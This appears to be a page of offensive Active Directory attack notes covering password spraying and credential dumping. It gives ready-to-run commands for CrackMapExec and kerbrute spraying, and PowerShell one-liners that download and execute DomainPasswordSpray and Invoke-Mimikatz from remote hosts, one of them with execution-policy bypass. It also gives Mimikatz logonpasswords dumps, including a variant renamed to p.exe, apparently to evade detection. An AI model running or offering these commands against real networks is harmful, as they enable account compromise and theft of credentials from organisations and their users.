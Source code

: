 
### Password Spray

* obtain user names with any technique listed above or dumping from somewhere

#### Remote

* SMB

`cme smb bamdc1.skorp.com -u users_enum.txt -p Password1 --continue-on-success | grep '+'`

* TGT

`kerbrute passwordspray -d corp.com --dc 192.168.239.70 users_spray.txt "Nexus123\!"`

#### Local: LDAP/ADSI

* download script and invoke spray

``` powershell 

IEX(New-Object Net.WebClient).downloadString('http://192.168.45.239/DomainPasswordSpray.ps1'); Invoke-DomainPasswordSpray -Password "Nexus123!" -UserList users.txt -Domain corp.com

```

### Local Host Memmory Dumping

Most of the AD attacks shall require hash or ticket that can be only extracted with SYSTEM rights from the target host.

```powershell

#engage the SeDebugPrivlege
privilege::debug

#dump the credentials of all logged-on users using the Sekurlsa
sekurlsa::logonpasswords

# get the hash here
```

Or just a oneliner

`.\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit > pass.txt`

Or change the name to `p.exe` and

```cmd
c:\ProgramData\p.exe  ""privilege::debug"" ""sekurlsa::logonpasswords""
```

Or powershell version

```powershell

powershell  -ep Bypass -NoP -NonI -NoLogo -c IEX (New-Object Net.WebClient).DownloadString('https://ip.attqacker/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command 'privilege::debug sekurlsa::logonpasswords exit'
```
